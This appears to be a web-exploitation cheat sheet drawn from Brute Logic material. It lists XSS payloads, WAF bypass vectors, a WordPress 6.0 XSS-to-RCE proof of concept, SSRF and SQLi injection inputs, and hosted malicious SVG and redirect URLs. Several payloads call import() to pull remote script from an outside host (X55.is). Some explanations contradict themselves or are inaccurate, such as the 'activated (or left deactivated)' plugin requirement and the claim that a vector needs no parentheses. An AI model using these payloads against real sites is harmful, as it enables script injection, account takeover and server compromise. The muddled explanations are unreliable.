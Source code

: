 <h1>Brute Logic Tricks: Advanced Techniques in Web Security Exploitation</h1><br />
The following write-up highlights advanced web exploitation techniques focusing on XSS (Cross-Site Scripting) vulnerabilities, WAF (Web Application Firewall) bypasses, and SSRF (Server-Side Request Forgery) scenarios. These methods are tailored for skilled penetration testers and security researchers, offering a deeper understanding of how to trick filters and evade detection in web applications.
<br />
<h3>1. Escaping Filters Using Byte Bundles</h3>
<b>Concept:</b> To bypass filters that escape specific characters such as single quotes (') when performing web attacks, particularly XSS, one can leverage bytes in the range of %A1 to %FE. These byte ranges can be combined with a single quote to outsmart the filter mechanism.
<br />
<b>Explanation:</b> In web security, many systems sanitize or escape certain characters like %27 (which is the ASCII encoding for ') to prevent malicious injections. However, some filtering mechanisms do not account for all possible byte combinations. By using a byte from %A1 to %FE, you can evade certain character escape sequences and trick the filter into allowing the injection. This is particularly useful when performing brute-force logic attacks or exploring other injection techniques.
<br />
<h3>2. WP 6.0 XSS to RCE Proof of Concept (PoC)</h3>
<b>Concept:</b> In WordPress 6.0, a known exploit allows a user to escalate an XSS (Cross-Site Scripting) vulnerability to RCE (Remote Code Execution). The method involves creating a file (brute.txt) in the /wp-content/plugins folder.

<b>Example:</b>
import('//X55.is/wp')<br />
<b>Requirements:</b><br />

1. An admin user must be logged in with default write permissions.<br >
2. The "Hello Dolly" plugin needs to be activated (or left deactivated as it's a default plugin in WordPress).<br >
3. Explanation: XSS is a client-side code injection attack, but in this case, it can escalate into a server-side RCE if the admin user is logged in. The trick lies in leveraging the default permissions in WordPress installations to inject a malicious file. This kind of exploitation showcases the danger of poorly protected administrative interfaces in web applications.
<br >
<h3>3. Breaking Out of String Values with Quotes</h3><br >
<b>Concept:</b> To escape from any string value where user input is embedded, an injection of single or double quotes is essential unless there are two injection points.<br >

<b>Example:</b>
/alert(1)//\<br >
<b>Explanation:</b> When user inputs are inserted into strings without proper sanitization, attackers can use single or double quotes to close the string and execute arbitrary code. However, if you have two injection points (such as opening and closing quotes around your payload), breaking out of a single point might not be necessary. The goal here is to manipulate the syntax of the code by closing strings prematurely, enabling the injection of additional malicious code.<br >

<h3>4. Anchors as XSS Vectors</h3>
<b>Concept:</b> HTML <a> tags (anchors) are powerful XSS vectors. By exploiting their attributes, one can trigger XSS payloads automatically.<br >

<b>Example 1:</b>
&lt;a href=//X55.is autofocus onfocus=import(href)&gt;<br >
<b>Explanation:</b> Here, the combination of the autofocus and onfocus attributes is used to trigger the import() function when the link is clicked or the element receives focus. This is an advanced method for exploiting XSS, taking advantage of HTML5 attributes. The anchor tag makes it especially dangerous since it is a common element on web pages and can be used to load external scripts without the need for parentheses.<br >

<h3>5. Misplacing Payloads and the "&lt" Symbol</h3>
<b>Concept:</b> If a payload and the "&lt" symbol are misplaced in HTML code, moving elements out of their usual place can still allow the execution of malicious code.<br >

<b>Example:</b>
&lt;Img Src="//X55.is/&gt; "OnError=import(src)//<br >
<b>Explanation:</b> In this example, the payload bypasses filters by misplacing the > symbol. This is a clever trick that can allow a malicious script to run even if the filter expects the payload to be in a specific position. The OnError event is used to trigger the payload when the image fails to load, effectively executing the malicious code.<br >

<h3>6. Securi WAF Bypass</h3>
<b>Concept:</b> Securi WAF (Web Application Firewall) can be bypassed using a crafted HTML form, as shown below.<br >

<b>Example:</b>

data:text/html,<form action=https://brutelogic.com.br/xss-waf.php method=post><input type=hidden name=a value="<K Contenteditable Autofocus OnFocusIn= [1].map(alert)>"><input type=submit value=XSS></form>
Explanation: This example uses a hidden input field with a crafted payload to bypass the Securi WAF. The Contenteditable attribute allows for user interaction, while Autofocus and OnFocusIn trigger the attack when the form is submitted. Web Application Firewalls typically inspect requests for known patterns, but this creative form submission method can evade such detection mechanisms.
<br >
<h3>7. Impera WAF Bypass</h3>
<b>Concept:</b> By crafting a vector inside an SVG tag, it’s possible to bypass the Impera WAF.<br >
<b>Example:</b>
&lt;svg&gt;&lt;set onbegin=d=document,b='`',d['loca'+'tion']='javascript&colon;aler'+'t'+b+domain+b&gt;
<b></b>Explanation:</b> Here, the vector uses an SVG element with a set attribute that starts executing JavaScript code when the SVG is rendered. The code concatenates parts of the location object and JavaScript's alert() function to trigger an alert. This bypasses the Impera WAF, which likely doesn’t properly inspect or decode these complex constructs inside SVG files.

<h3>8. XSS Vulnerability from SSRF or SQLi Scenarios</h3>
<b>Concept:</b> Cross-Site Scripting (XSS) can emerge from SSRF (Server-Side Request Forgery) or SQL injection scenarios if improperly handled.<br >

<b>SSRF (curl-based) Example:</b>
?url=https://blablablabla-site.com/poc.svg
<b>SSRF (PHP file_get_contents) Example:</b>
?url=data:,<svg/onload=alert(1)>
<b>SQLi (error-based) Example:</b>
?id='<svg/onload=alert(1)><br >
<b>Explanation:</b> In these cases, XSS occurs because input parameters are not sanitized, allowing attackers to inject malicious scripts into server responses. SSRF exploits can be leveraged by providing URLs that return SVG files containing scripts, while SQLi can inject scripts directly into database queries, resulting in the execution of malicious code when the error message or query result is rendered.
<br >
<h3>9. Brute SVG Collection</h3>
Brute Logic offers a collection of SVG files, each serving different purposes in exploiting web vulnerabilities.<br >

XSS (no image)<br >

URL: https://brutelogic.com.br/poc.svg<br >
XSS (valid image)<br >

URL: https://brutelogic.com.br/brute.svg<br >
Redirect (default)<br >

URL: https://brutelogic.com.br/redir.svg<br >
Redirect (custom)<br >

URL: https://brutelogic.com.br/redir.svg?url=//X55.is<br >
Redirect (custom + warning)<br >

URL: https://brutelogic.com.br/redir.svg?url=//X55.is&w=1<br >
Explanation: This collection provides pre-built SVG files that trigger XSS or redirect behavior when accessed. The SVG format is commonly used for image rendering, but attackers can insert scripts into these files, making them a vector for XSS attacks. The redirect files can be customized to send users to any malicious site, with optional warning messages to obscure the true intent of the redirect.
<br >
<h3>Conclusion</h3>
The above techniques represent advanced strategies used by security researchers to test, bypass, and exploit web vulnerabilities. These methods emphasize the need for rigorous input validation, secure configuration, and proper use of web application firewalls to protect against common attack vectors like XSS, SSRF, and SQLi. As web security continues to evolve, so do the methods used by attackers, making it crucial to stay informed about these cutting-edge techniques.<br >

